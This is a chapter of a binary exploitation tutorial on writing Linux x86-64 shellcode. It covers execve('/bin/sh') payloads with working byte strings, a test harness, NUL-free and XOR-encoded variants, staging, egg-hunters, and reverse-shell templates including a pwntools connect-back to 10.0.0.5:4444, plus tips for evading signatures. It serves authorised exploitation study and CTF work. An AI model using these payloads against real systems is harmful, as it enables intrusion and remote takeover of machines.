






This is Chapter 7 of the Binary Exploitation notebook. Chapters 3–6 were about *reusing* code — ROP chains, ret2libc, format-string writes, heap poisons that ultimately call `system` or a `one_gadget`. This chapter is about the opposite discipline: **supplying your own machine code** for the target to execute. When NX is off (or you've made a page executable via `mprotect`, or the target is an embedded/JIT/interpreter context without DEP), the most direct exploitation path is to inject a small, self-contained program — **shellcode** — that does exactly what you want: spawn a shell, read a flag, connect back to you.

Shellcode writing is where exploitation meets systems programming at its most raw. You will hand-write assembly, understand the syscall ABI at the register level, and fight a set of *delivery constraints* that ordinary programs never face: your bytes travel through `strcpy`/`read`/`scanf`, so a single NUL byte can truncate your entire payload; you don't know where you'll land, so you can't hardcode addresses; you may have only 40 bytes of space. Meeting those constraints — NUL-free, position-independent, tiny, bad-char-clean — is the craft this chapter teaches.

Everything targets systems you own or are authorised to test. Custom shellcode is how a vulnerability researcher demonstrates arbitrary code execution concretely, and how exploit developers build reliable payloads for red-team tooling within scope.

---

## Part 1: What Shellcode Is, and When You Use It

**Shellcode** is a sequence of raw machine-code bytes, position-independent and self-contained, that you inject into a target's memory and redirect execution to. The name comes from its classic goal — spawning a command shell (`/bin/sh`) — but "shellcode" now means any injected payload: a shell, a `read(flag)`, a reverse connection, a stager that pulls a larger second stage.

You reach for shellcode (rather than ROP/ret2libc) when:

- **NX is off** — the stack/heap/bss is executable, so you can jump straight to injected bytes (Chapter 2's world; still common in CTFs, embedded firmware, and some kernel/driver contexts).
- **You made memory executable** — a ROP chain called `mprotect(page, len, RWX)` and then jumps into shellcode you placed there (the standard way to combine ROP with shellcode under NX; the endgame of many `ret2csu`/`mprotect` chains from Chapter 3).
- **The context has no useful libc to reuse** — a static binary with no `system`, a tiny embedded target, a JIT spray, or a shellcode-only CTF where the harness `mmap`s your input RWX and calls it.
- **You need custom behaviour** — read a specific file, pivot the network, drop a stager — that no single library call provides.



The rest of the chapter builds shellcode from first principles, then hardens it for delivery.

---

## Part 1b: The Minimal Assembly You Need

Shellcoding needs only a small assembly vocabulary. If Chapters 1–3 gave you a reading knowledge of x86-64, this cements the writing knowledge. The 64-bit general-purpose registers and their sub-registers:

| 64-bit | 32-bit | 16-bit | 8-bit (low) | Conventional use |
|---|---|---|---|---|
| `rax` | `eax` | `ax` | `al` | accumulator; syscall number & return |
| `rdi` | `edi` | `di` | `dil` | 1st arg |
| `rsi` | `esi` | `si` | `sil` | 2nd arg |
| `rdx` | `edx` | `dx` | `dl` | 3rd arg |
| `rsp` | `esp` | `sp` | `spl` | stack pointer |
| `rbp` | `ebp` | `bp` | `bpl` | frame pointer (free to use in shellcode) |
| `r8`–`r15` | `r8d`… | `r8w`… | `r8b`… | extra args / scratch |

Writing to a 32-bit sub-register (`eax`) **zero-extends into the full 64-bit register** — this is why `xor eax, eax` clears all of `rax`. The instructions you'll use 90% of the time:

```asm
xor  reg, reg      ; set to 0 (NUL-free)
mov  dst, src      ; copy
push reg / pop reg ; stack ops — also a NUL-free way to load small constants
lea  dst, [mem]    ; load effective address (RIP-relative for position independence)
inc / dec  reg     ; +1 / -1 (single byte, NUL-free)
cmp  a, b / test   ; compare / set flags
jmp / je / jne / jns  label   ; (conditional) jumps
syscall            ; invoke the kernel (0f 05)
```

That is essentially the whole instruction set of a typical shellcode. The skill is not knowing many instructions — it's choosing *encodings* (Part 12d) that avoid bad bytes and derive addresses at runtime. Keep an assembler handy and iterate: write, `nasm`, `objdump`, check bytes, repeat.

---

## Part 2: The Linux x86-64 Syscall ABI

Shellcode talks to the kernel directly via **syscalls** — no libc, no PLT, no GOT. You must know this ABI cold because every shellcode is a sequence of syscalls set up by hand.

On x86-64 Linux, a syscall is made with the `syscall` instruction, with arguments in a specific register set (note: *different* from the function-call ABI of Chapter 5 — `rcx`/`r10` differ):

| Register | Role |
|---|---|
| `rax` | **syscall number** (which syscall) |
| `rdi` | 1st argument |
| `rsi` | 2nd argument |
| `rdx` | 3rd argument |
| `r10` | 4th argument (NOT `rcx` — `syscall` clobbers `rcx`) |
| `r8` | 5th argument |
| `r9` | 6th argument |
| `rax` (after) | return value |

The syscalls you use most in shellcode, with their x86-64 numbers:

| Syscall | `rax` | Signature | Use |
|---|---|---|---|
| `read` | 0 | `read(fd, buf, count)` | read input / stage 2 |
| `write` | 1 | `write(fd, buf, count)` | print, exfil |
| `open` | 2 | `open(path, flags, mode)` | open a flag file |
| `execve` | 59 | `execve(path, argv, envp)` | **spawn a shell** — the classic |
| `exit` | 60 | `exit(code)` | clean exit |
| `socket` | 41 | `socket(domain, type, proto)` | reverse/bind shell |
| `connect` | 42 | `connect(fd, addr, len)` | reverse shell |
| `dup2` | 33 | `dup2(oldfd, newfd)` | redirect stdio to a socket |
| `mprotect` | 10 | `mprotect(addr, len, prot)` | make memory RWX |

The `execve("/bin/sh", NULL, NULL)` shellcode is the "hello world" of the craft, and everything else is a variation. Its recipe: put the address of the string `"/bin/sh"` in `rdi`, `NULL` in `rsi` and `rdx`, `59` in `rax`, and execute `syscall`.



---

## Part 3: Writing `execve("/bin/sh")` By Hand

Let's build it in assembly, deliberately, then fix the constraints. First, a naïve version to understand the logic (we'll make it NUL-free next):

```asm
; execve_naive.asm  (nasm -f elf64)
section .text
global _start
_start:
    ; we need "/bin/sh\0" in memory and its address in rdi
    ; trick: push the string onto the stack in two 4-byte halves (little-endian)
    xor  rax, rax          ; rax = 0  (also gives us a NULL byte to terminate)
    push rax               ; push 8 NUL bytes -> string terminator on stack
    mov  rbx, 0x0068732f6e69622f   ; "/bin/sh" reversed as little-endian qword
    push rbx               ; stack now holds "/bin/sh\0"
    mov  rdi, rsp          ; rdi -> "/bin/sh"
    xor  rsi, rsi          ; rsi = 0 (argv = NULL)
    xor  rdx, rdx          ; rdx = 0 (envp = NULL)
    mov  al, 59            ; rax = 59 (execve); use AL to avoid a 0x0000003b immediate
    syscall
```

Two clever moves already: we build the string **on the stack at runtime** (position-independent — no hardcoded address of the string anywhere) and we set `rax` via `mov al, 59` instead of `mov rax, 59` (the latter assembles with NUL bytes; more on that in Part 5).

The little-endian encoding of `"/bin/sh"`: the bytes are `2f 62 69 6e 2f 73 68` = `/ b i n / s h`. As a little-endian 8-byte value that's `0x0068732f6e69622f` (the high byte `00` is the NUL terminator; but a `00` in an immediate is a bad byte — we handle that by pushing the NUL separately, as above, so the immediate we `mov` is only 7 meaningful bytes... actually `0x68732f6e69622f` is 7 bytes and the assembler zero-extends. We refine this in Part 5).

### Assemble and extract the bytes

```bash
$ nasm -f elf64 execve_naive.asm -o execve.o
$ ld execve.o -o execve            # link into a runnable ELF to test
$ ./execve                          # should drop a shell
$ objdump -d execve                 # view the instruction bytes
0000000000401000 <_start>:
  401000: 48 31 c0              xor    rax,rax
  401003: 50                    push   rax
  401004: 48 bb 2f 62 69 6e ... movabs rbx,0x68732f6e69622f
  ...
# extract the raw opcodes as a C string:
$ objcopy -O binary -j .text execve execve.bin
$ xxd -i execve.bin | head
unsigned char execve_bin[] = { 0x48,0x31,0xc0,0x50,0x48,0xbb,0x2f,0x62, ... };
```

The `objcopy -O binary -j .text` step pulls just the `.text` bytes — that byte string *is* your shellcode. `xxd -i` formats it as a C array ready to paste into a test harness.

---

## Part 4: Testing Shellcode in a Harness

Never test shellcode by "hoping" — run it in a controlled harness first. The classic C harness `mmap`s an executable page (or marks a global executable) and calls your bytes as a function:

```c
// runsc.c — gcc -z execstack -o runsc runsc.c   (execstack lets the array run)
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>

unsigned char sc[] =
  "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x53"
  "\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05";

int main() {
    printf("shellcode length: %zu\n", strlen((char*)sc));
    // allocate RWX memory and copy the shellcode in
    void *page = mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC,
                      MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    memcpy(page, sc, sizeof sc);
    ((void(*)())page)();          // jump into the shellcode
    return 0;
}
```

```bash
$ gcc -o runsc runsc.c
$ ./runsc
shellcode length: 27
$ id
uid=1000(kali) gid=1000(kali)     # got a shell -> shellcode works
```

**Critical detail:** `printf("...%zu", strlen(sc))` — if `strlen` reports a length *shorter* than your actual shellcode, you have a **NUL byte** in it that would truncate delivery through a string function. The harness doubles as a bad-byte detector. pwntools has an even faster path:

```python
from pwn import *
context.arch = 'amd64'
sc = asm(shellcraft.sh())      # generate a working /bin/sh shellcode
print(disasm(sc))
p = run_shellcode(sc)          # assembles, maps RWX, runs it
p.interactive()
```

`shellcraft.sh()` emits a tested, NUL-free `execve("/bin/sh")` for the current arch — use it when you just need a working payload, and hand-write when you need to meet special constraints `shellcraft` can't.

---

### Debugging shellcode that doesn't work

When a shellcode crashes instead of shelling, step through it in gdb rather than guessing. Load the harness, break at the jump into the shellcode, and single-step watching registers:

```text
$ gdb -q ./runsc
pwndbg> break *main+NN          # right before the call into the page
pwndbg> run
pwndbg> si                      # step into the shellcode
pwndbg> x/12i $rip              # disassemble the next instructions — are they your bytes?
pwndbg> si                      # step instruction by instruction
pwndbg> info registers rdi rsi rdx rax   # verify each syscall's args before 'syscall'
```

The usual findings: a NUL truncated the payload (the disassembly turns to garbage partway), a register wasn't zeroed (a stale value in `rsi`/`rdx` faults `execve`), or the string on the stack isn't NUL-terminated. Stepping to the `syscall` and reading `rax`/`rdi`/`rsi`/`rdx` tells you immediately whether the syscall is set up correctly. `catch syscall execve` also lets you confirm the exact arguments the kernel receives.

---

## Part 5: The NUL-Byte Problem and NUL-Free Coding

The single most important delivery constraint: **most bugs deliver your shellcode through a string operation** (`strcpy`, `sprintf`, `scanf("%s")`, `gets`) that **stops at the first NUL byte (`0x00`)**. If your shellcode contains a `0x00`, everything after it is silently dropped and your payload is truncated into garbage. So shellcode must be **NUL-free**.

Where NUL bytes sneak in, and how to avoid them:

| Instruction | Assembles with NUL? | NUL-free alternative |
|---|---|---|
| `mov rax, 0` | yes (`48 c7 c0 00 00 00 00`) | `xor rax, rax` (`48 31 c0`) |
| `mov rax, 59` | yes (large immediate has NULs) | `mov al, 59` (`b0 3b`) — sets only low byte |
| `mov rdi, 0` | yes | `xor rdi, rdi` |
| `push 0x68732f...00` | the `00` terminator byte | build string with a separate `push rax` (NUL) then push 7 bytes |
| `add rax, 0x10000000` | small values ok; large may zero-pad | use registers / shifts to construct big values |
| addresses with `00` bytes | often | avoid absolute addresses (position independence) |

The two golden rules: **zero a register with `xor reg, reg`, not `mov reg, 0`**; and **set small constants via the 8-bit sub-register (`al`, `dil`, etc.)** so the immediate is one byte with no zero padding. Here is the canonical NUL-free `execve("/bin/sh")`, 27 bytes:

```asm
; execve_clean.asm — 27 bytes, NUL-free
_start:
    xor  rsi, rsi          ; rsi = 0 (argv)   48 31 f6
    push rsi               ; NUL terminator on stack  56
    mov  rdi, 0x68732f6e69622f  ; "/bin/sh" (7 bytes, no NUL in the immediate) 48 bf ...
    push rdi               ; push the string  57
    push rsp
    pop  rdi               ; rdi -> "/bin/sh"  54 5f
    xor  rdx, rdx          ; rdx = 0 (envp)  48 31 d2
    push 59
    pop  rax               ; rax = 59 (execve), NUL-free via push/pop  6a 3b 58
    syscall                ;  0f 05
```

Notice `push 59; pop rax` — a NUL-free way to load a small constant into a full register (the `push imm8` is `6a 3b`, `pop rax` is `58`, no zeros). This push/pop idiom is a staple of clean shellcode. Verify with the length trick:

```bash
$ objdump -d execve_clean.o | grep -c '00'    # ideally zero occurrences of a lone 00 opcode
$ python3 -c "print(len(open('sc.bin','rb').read()))"   # 27
```

---

## Part 6: Position Independence — No Hardcoded Addresses

The second universal constraint: **you don't know where your shellcode will be loaded**, especially with ASLR. So it cannot reference absolute addresses — not of the `"/bin/sh"` string, not of any data. Everything must be computed at runtime relative to where the code already is.

The `execve` shellcode above is already position-independent: it builds `"/bin/sh"` **on the stack** and takes its address from `rsp` (`push rsp; pop rdi`). No absolute address appears anywhere. This "construct data on the stack, address it via `rsp`" pattern is the core position-independence technique.

When you *do* need the address of code (e.g. for an egg-hunter or to reference embedded data), the classic trick is the **`call`/`pop` (get-EIP/RIP) idiom**: a `call` pushes the return address (which is the address of the next instruction) onto the stack, and a `pop` retrieves it — giving the shellcode its own runtime address:

```asm
    jmp  short getstr
back:
    pop  rsi               ; rsi = address of the string below (runtime address!)
    ; ... use rsi ...
getstr:
    call back              ; pushes address of the byte right after this call = the string
    db  "flag.txt", 0
```

On x86-64 you can also use RIP-relative addressing (`lea rdi, [rel str]`) which the assembler encodes position-independently — often cleaner than call/pop. The principle is the same: **derive addresses from the instruction pointer, never hardcode them.**



---

## Part 7: Bad Characters Beyond NUL

NUL is the most common forbidden byte, but the delivery path may forbid others. **Bad-char analysis** is the process of discovering which byte values the target mangles, so you can avoid or encode them.

Common bad chars by delivery context:

| Delivery path | Typical bad bytes | Why |
|---|---|---|
| `strcpy`/`gets`/`scanf %s` | `0x00` | NUL terminator |
| Line-based `fgets`/`read` split on newline | `0x0a` (`\n`), sometimes `0x0d` (`\r`) | line terminators |
| `atoi`/numeric parsers | non-digit stripping | context-specific |
| URL/HTTP delivery | `0x00 0x0a 0x0d 0x20 0x25`… | protocol delimiters, `%` |
| `toupper()`/`tolower()` normalisation | whole case ranges altered | forces alphanumeric encoding |

The methodology to find them: send all 256 byte values into the buffer and inspect memory in a debugger to see which arrive intact.

```python
# classic bad-char discovery: send 0x01..0xff, dump the buffer in gdb, note any missing/altered
badchar_test = bytes(b for b in range(1, 256))   # skip 0x00 (assumed bad)
# place in the vulnerable buffer, then in pwndbg:
#   pwndbg> x/256bx $buffer_addr
# any byte that is missing, duplicated, or changed value is a bad char
```

Once known, you either **rewrite the shellcode** to avoid those bytes (choose different instruction encodings) or **encode** it (Part 9) so the raw payload contains only allowed bytes and a small decoder stub reconstructs the real shellcode at runtime.

---

## Part 8: Size, Staging, and Egg-Hunters

Sometimes the buffer is too small for a full payload (a 40-byte overflow can't hold a 120-byte reverse shell). Three strategies handle cramped space.

### Minimisation

Shave bytes: reuse registers already holding useful values, prefer 1-byte encodings, drop unnecessary `exit` calls (for `execve` you don't need a clean exit). The 27-byte `execve` above is near-minimal; competition shellcode gets to ~21 bytes with tricks.

### Staged payloads

A tiny **stage 1** does just enough to pull in a larger **stage 2**: e.g. `read(0, rsp, 0x1000)` reads a big second stage from the same socket/stdin into a known location, then jumps to it. Stage 1 fits the small buffer; stage 2 has no size limit.

```asm
; stage 1: read more shellcode onto the stack and jump to it (~20 bytes)
    xor  rax, rax          ; rax = 0 (read)
    xor  rdi, rdi          ; fd = 0 (stdin) or the socket fd
    mov  rsi, rsp          ; buf = stack
    mov  dx, 0x1000        ; count
    syscall                ; read stage 2 in
    jmp  rsp               ; jump to what we just read
```

### Egg-hunters

When you can inject a *large* payload somewhere in memory but don't know *where*, and only have a tiny foothold, an **egg-hunter** is stage-1 code that **searches memory for a marker ("egg")** prefixing your real payload, then jumps to it. The hunter scans pages safely (using a syscall like `access`/`sigaction` to probe validity without crashing on unmapped pages), looks for an 8-byte egg (e.g. `0x9090909090909090` or a chosen tag repeated twice), and transfers control.



Egg-hunters are the answer to "big payload, small entry point, unknown location" — common in browser/heap-spray and cramped stack overflows. This is Lab B.

---

## Part 9: Encoders and Printable/Alphanumeric Shellcode

When bad chars are extensive (case normalisation, protocol filters) you **encode** the shellcode: transform it so the transmitted bytes are all allowed, and prepend a small **decoder stub** that reverses the transform at runtime before executing the real payload.

- **XOR encoding:** XOR every shellcode byte with a key chosen so no encoded byte is a bad char; the stub XORs them back in place. The classic `msfvenom` `x86/shikata_ga_nai` is a polymorphic XOR feedback encoder (primarily an AV/IDS evasion and bad-char tool, not "encryption").
- **Alphanumeric encoding:** transform the payload so *every* byte is in `[A-Za-z0-9]` — necessary when the buffer passes through `isalnum` filters. pwntools and msfvenom can emit these; the decoder stub itself must also be alphanumeric, which is a remarkable constraint-satisfaction feat.
- **Printable-ASCII encoding:** all bytes in `0x20–0x7e`.

```bash
# msfvenom: generate an execve shellcode, avoid bad chars, encode
$ msfvenom -p linux/x64/exec CMD=/bin/sh -f python -b '\x00\x0a\x0d' -e x64/xor
# pwntools: encode to avoid specific bytes
python3 -c "from pwn import *; context.arch='amd64'; \
  print(encode(asm(shellcraft.sh()), avoid=b'\x00\x0a').hex())"
```

**Important framing:** encoders are *not* obfuscation for its own sake and modern EDR/AV detect common encoders (`shikata_ga_nai` is heavily signatured). In a legitimate VR/red-team context within scope, encoding is about **meeting byte constraints of the delivery channel**, not defeating defenders — and heavy encoder use is itself a detection signal (Part 12).

| Technique | Solves | Cost |
|---|---|---|
| Register/encoding choice | a few bad bytes | free (just rewrite) |
| XOR encoder + stub | arbitrary bad bytes | + decoder size, decoder must be clean |
| Alphanumeric encoder | `isalnum` filters | large size blow-up |
| Staging | size limits | needs a read-back channel |
| Egg-hunter | unknown location | + hunter size, scan time |

---

### A worked XOR decoder stub

To make encoders concrete, here is a minimal self-decoding XOR stub — the pattern behind every XOR encoder. The real shellcode is XOR'd with a key; the stub finds itself (position-independently via `call/pop`), loops over the encoded bytes flipping them back, then falls through into the now-decoded payload:

```asm
    jmp  short get_addr
decode:
    pop  rsi                 ; rsi = address of encoded payload (from the call below)
    xor  rcx, rcx
    mov  cl, PAYLOAD_LEN     ; number of bytes to decode
decode_loop:
    xor  byte [rsi], 0xAA    ; XOR each byte with key 0xAA (choose so no encoded byte is bad)
    inc  rsi
    loop decode_loop         ; dec rcx; jnz
    jmp  short encoded       ; jump into the decoded payload
get_addr:
    call decode              ; pushes address of 'encoded:' -> rsi
encoded:
    ; XOR-encoded real shellcode bytes go here (patched in by the encoder)
```

The key `0xAA` is chosen so that `real_byte XOR 0xAA` never produces a bad char (NUL, `\n`, etc.). If one key can't satisfy all bytes, multi-byte or feedback keys (like `shikata_ga_nai`) are used. **Note the constraint recursion:** the *decoder stub itself* must be bad-char-clean, since it isn't encoded — which is why hand-written stubs use only `xor`, `inc`, `loop`, and short jumps (all clean encodings). This is the same self-referential elegance that makes alphanumeric decoders (a stub written entirely in `[A-Za-z0-9]` bytes that decodes arbitrary shellcode) a celebrated shellcoding art form.

---

## Part 10: Networked Shellcode — Reverse and Bind Shells

For remote targets, `execve("/bin/sh")` alone is useless — the shell's stdin/stdout aren't connected to you. Networked shellcode fixes that.

- **Socket-reuse (best when possible):** the target already has a connected socket (the one your exploit came in on). Find its file descriptor (often small, 3–5) and `dup2` it onto stdin/stdout/stderr, then `execve("/bin/sh")`. Smallest and most firewall-friendly (no new connection).
- **Reverse shell:** `socket()` → `connect()` back to your listener → `dup2` the socket to stdio → `execve`. Works through outbound-permissive firewalls.
- **Bind shell:** `socket()` → `bind()` → `listen()` → `accept()` → `dup2` → `execve`. You connect *in*; often blocked by ingress firewalls.

The `dup2` loop is the shared idiom:

```asm
; redirect stdin(0), stdout(1), stderr(2) to the socket fd in rdi
    xor  rsi, rsi          ; rsi = 2 (start with stderr), loop down
    mov  sil, 2
dup_loop:
    mov  rax, 33           ; dup2 (use push/pop for NUL-free in practice)
    syscall                ; dup2(sockfd, rsi)
    dec  rsi               ; 2 -> 1 -> 0
    jns  dup_loop          ; loop while rsi >= 0
    ; then execve("/bin/sh") as before
```

pwntools' `shellcraft` has ready templates that are worth reading to learn the idioms:

```python
from pwn import *
context.arch = 'amd64'
print(disasm(asm(shellcraft.dupsh(4))))              # dup2 fd 4 -> stdio, then sh
print(disasm(asm(shellcraft.connect('10.0.0.5', 4444) + shellcraft.dupsh() + shellcraft.sh())))
```

Socket-reuse (`dupsh` on the known fd) is almost always the right choice when the bug arrives over a socket, because you already have a connected, allowed channel.

---

## Part 10b: NOP Sleds and Landing Reliably

Even with NX off and a known-ish buffer, you may not know the *exact* address to return to (stack address jitter, environment-size variance shifting the stack). A **NOP sled** (a run of `0x90` no-op bytes) solves this: prepend many NOPs before your shellcode and aim your return anywhere in the sled — execution "slides" down the NOPs into the shellcode.

```
[ 0x90 0x90 0x90 ... 0x90 | SHELLCODE ]   <- return anywhere in the NOP run
        ^ land here, slide right into shellcode
```

```python
sled = b'\x90' * 200
payload = sled + shellcode + b'A'*pad + p64(somewhere_in_the_sled)
```

Caveats and refinements:

- **NOP sleds are loud.** A long `0x90` run is a classic NIDS/AV signature (`emerging-shellcode` rules flag it). Where stealth matters, use a **NOP-equivalent sled** of varied single-byte instructions that don't disturb the relevant registers (`inc/dec` of unused regs, `nop`-like ops) — msfvenom's `opt_sub`/multi-byte NOP generators exist for this.
- **On x86-64 sleds are less necessary** than on 32-bit because you more often have a `jmp rsp`/`jmp rax` gadget or a precise leak. A single `jmp rsp` gadget (if a register points at your shellcode at return) is more reliable and quieter than a sled.
- **Sled placement matters:** the sled must be *before* the shellcode in memory and your return must land within it, sliding *forward* into the code — a return past the shellcode slides into garbage.

The sled is a reliability tool for imprecise addresses; prefer a precise leak or a `jmp rsp` when you can, and keep the sled short to reduce signature exposure.

---

## Part 10c: A Word on Windows Shellcode (Contrast)

This chapter is Linux/x86-64, but the contrast with Windows sharpens the concepts. Windows shellcode cannot just `syscall` — the Windows syscall numbers are undocumented and change between builds, so shellcode instead **resolves and calls Win32 API functions** (`WinExec`, `CreateProcess`, `LoadLibrary`, `WSASocket`). To find those functions position-independently, Windows shellcode walks the **PEB (Process Environment Block)** to locate loaded modules (`kernel32.dll`), then parses that module's **export table** by hashing function names — the classic "PEB walk + export hashing" technique.

| Aspect | Linux x86-64 | Windows x64 |
|---|---|---|
| Kernel interface | direct `syscall` (stable numbers) | call Win32 API (syscall numbers unstable) |
| Finding functions | not needed (syscalls) | PEB walk → kernel32 exports → name hashing |
| Spawn a process | `execve("/bin/sh")` | `WinExec("cmd")` / `CreateProcess` |
| Networking | `socket`/`connect` syscalls | `WSASocket`/`WSAConnect` via ws2_32 |

